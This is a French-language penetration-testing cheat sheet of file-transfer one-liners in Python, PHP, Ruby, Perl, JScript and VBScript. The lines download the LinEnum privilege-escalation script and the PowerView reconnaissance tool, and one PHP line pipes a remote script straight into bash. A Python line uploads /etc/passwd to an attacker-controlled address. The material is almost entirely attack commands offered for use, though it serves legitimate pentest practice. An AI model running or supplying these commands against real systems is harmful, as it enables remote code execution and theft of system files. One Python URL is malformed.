 # Python

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Chargement
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/LinEnum.sh", "LinEnum.sh")'
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/LinEnum.sh", "LinEnum.sh")'
#Versement
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# PHP

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Chargement
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
#Versement
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
#pipe vers bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Ruby

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#Chargement
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Perl

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell 
#Chargement
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Javascript

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#wget.js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# VBScript
Dispo sur windows depuis 98

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
